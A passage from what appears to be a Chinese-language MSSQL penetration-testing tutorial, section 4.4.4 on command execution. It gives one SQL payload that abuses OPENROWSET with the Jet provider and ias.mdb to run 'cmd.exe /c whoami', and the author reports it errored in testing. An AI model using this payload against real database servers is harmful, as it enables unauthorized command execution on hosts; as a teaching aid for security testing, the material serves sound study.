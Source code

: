 <img src="assets/DxHzdZNY8rGjFpe.png" alt="image-20230321130416641" style="zoom:50%;" />

### 4.4.4. 执行命令

这里由于需要安装32位，64位不行所以就没进行具体测试，可以看到这里报错了。

```mssql
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\ias.mdb','select shell("cmd.exe /c whoami")')
```

<img src="assets/nDu6I4RC8yFigvq.png" alt="image-20230321130517875" style="zoom:50%;" />
